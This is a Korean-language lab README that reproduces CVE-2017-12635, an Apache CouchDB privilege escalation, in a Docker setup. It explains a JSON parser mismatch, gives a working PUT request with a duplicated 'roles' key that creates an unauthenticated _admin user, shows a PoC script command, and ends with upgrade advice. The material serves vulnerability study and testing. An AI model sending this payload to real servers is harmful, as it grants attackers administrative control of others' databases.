



# CVE-2017-12635

**Contributors**

-   [김민준(@jason1343)](https://github.com/jason1343)

<br/>

# Apache CouchDB 원격 권한 상승 (CVE-2017-12635)

아파치 CouchDB는 오픈소스 문서 지향 NoSQL 데이터베이스로, Erlang으로 구현되었다.

Apache CouchDB 1.7.0 이전 및 2.1.1 이전 버전에서 Erlang 기반 JSON 파서와 JavaScript 기반 JSON 파서 간의 차이로 인해, `_users` 문서에 중복 키가 포함된 요청을 전송함으로써 인증 없이 `_admin` 역할을 가진 사용자를 생성할 수 있다.

참고 자료:

- <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html>
- <https://www.exploit-db.com/exploits/44498>

## 환경 설정

```
docker compose up -d
```

환경이 시작된 후 `http://your-ip:5984/_utils/`에서 CouchDB 관리 UI에 접속할 수 있다.

## 취약점 재현

### 1. 일반 요청 (403 확인)

`_admin` 역할을 설정하는 일반 요청은 403으로 거부된다:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Content-Type: application/json

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```



### 2. 중복 키 우회 (권한 상승)

`roles` 키를 중복으로 포함한 요청을 전송한다. Erlang 파서는 첫 번째 `roles: ["_admin"]`를, JavaScript 파서는 마지막 `roles: []`를 참조하는 파서 불일치를 이용한다:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Content-Type: application/json

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

또는 PoC 스크립트로 실행한다:

```
pip install requests
python3 poc.py http://your-ip vulhub vulhub
```

`vulhub` 유저가 `_admin` 권한으로 생성된다:



### 3. 관리자 로그인 확인

생성된 계정으로 로그인하면 관리자 권한이 부여된 것을 확인할 수 있다:



## 환경 종료

```
docker compose down
```

## 대응 방안

- Apache CouchDB 1.7.0 이상 또는 2.1.1 이상으로 업데이트한다.
